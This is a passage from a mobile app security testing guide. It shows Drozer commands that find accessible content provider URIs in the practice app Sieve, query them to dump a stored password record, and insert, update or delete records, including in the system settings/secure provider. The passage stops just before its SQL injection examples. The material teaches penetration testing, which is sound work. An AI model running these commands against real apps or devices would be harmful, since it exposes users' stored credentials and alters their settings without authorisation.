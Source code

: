 To identify content provider URIs within the application, use Drozer's `scanner.provider.finduris` module. This module guesses paths and determines accessible content URIs in several ways:

```bash
dz> run scanner.provider.finduris -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/
...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

Once you have a list of accessible content providers, try to extract data from each provider with the `app.provider.query` module:

```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w== (Base64 - encoded)
email: incognitoguy50@gmail.com
```

You can also use Drozer to insert, update, and delete records from a vulnerable content provider:

- Insert record

  ```bash
  dz> run app.provider.insert content://com.vulnerable.im/messages
                  --string date 1331763850325
                  --string type 0
                  --integer _id 7
  ```

- Update record

  ```bash
  dz> run app.provider.update content://settings/secure
                  --selection "name=?"
                  --selection-args assisted_gps_enabled
                  --integer value 0
  ```

- Delete record

  ```bash
  dz> run app.provider.delete content://settings/secure
                  --selection "name=?"
                  --selection-args my_setting
  ```

#### SQL Injection in Content Providers

The Android platform promotes SQLite databases for storing user data. Because these databases are based on SQL, they may be vulnerable to SQL injection. You can use the Drozer module `app.provider.query` to test for SQL injection by manipulating the projection and selection fields that are passed to the content provider:
